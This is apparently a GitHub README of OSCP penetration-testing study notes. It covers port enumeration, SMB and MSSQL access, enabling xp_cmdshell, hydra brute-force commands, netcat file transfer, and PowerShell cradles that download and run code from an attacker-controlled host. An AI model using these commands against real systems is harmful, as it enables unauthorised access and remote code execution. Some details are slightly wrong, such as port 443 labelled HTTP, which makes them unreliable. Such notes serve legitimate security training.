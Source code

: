 # OSCP-NOTES
## Enumeration
1. Ports
```
port 21 — FTP (File Transfer Protocol)
port 22 — SSH (Secure Shell)
port 23 — Telnet
port 25 — SMTP (Simple Mail Transfer Protocol)
port 53 — DNS (Domain Name System)
port 443 — HTTP (Hypertext Transport Protocol) and HTTPS (HTTP over SSL)
port 110 — POP3 (Post Office Protocol version 3)
port 135 — Windows RPC
ports 137–139 — Windows NetBIOS over TCP/IP
port 1433 and UDP port 1434 — Microsoft SQL Server
```
* Port 21 FTP
```
ftp <ip>
nc <ip> 21
```
* Port 22 SSH
```
nc -w <ip> 22
```
* Port 25 SMTP
```
nc -w <ip> 25
telnet <ip> 25
```
* Port 110 POP3
```
telnet <ip> 110
* USER <username>
* PASS <password>
* list #list mails
* retr #cd
```
* Port 139 & 445 SMB
```
#check list
smbclient -L <ip>
enum4linux -a <ip>
smbmap -H <ip>
#Login
smbclient //<ip>/<filename> -U <username>
```
* Port 1433 MsSQL
```
sqsh -S <ip> -U <username> or sqsh -S <ip> -U <username> -P "<password>"
* 1> EXEC SP_CONFIGURE N'show advanced options', 1
* 2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
* 2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> RECONFIGURE
* 2> go
* 1> xp_cmdshell 'dir C:\';
* 2> go
```
* SSH login
```
ssh <username@ip> 
```
* Password Decrypt
  * Decode Base64 Encoded Values
  ```
  echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode
  ```
  * Decode Hexidecimal Encoded Values
  ```
  echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
  ```
  * GPP Password
  ```
  gpp-decrypt <code>
  ```
* Send a file using netcat
  * send    
  ```
  nc -nlvp <ip> < <filename>
  ```
  * receive 
  ```
  nc -w 3 <ip> > <outputfilename>
  ```
* Brute Force
  * ssh
  ```
  hydra -l <user.txt> -p <pass.txt> <ip> ssh
  ```
  * telnet
  ```
  hydra -l root -P <password.txt> <ip> telnet
  ```
 * Powershell Download
 ```
 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<LHOSTIP>/<filename>', '<Location\filename>')"
 powershell -c CreateObject("WScript.Shell").Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://<LHOSTIP>/<filename>')")
 powershell -c "Invoke-WebRequest -Uri <LHOSTIP>/<filename> -Outfile <Location\filename>"
 ```
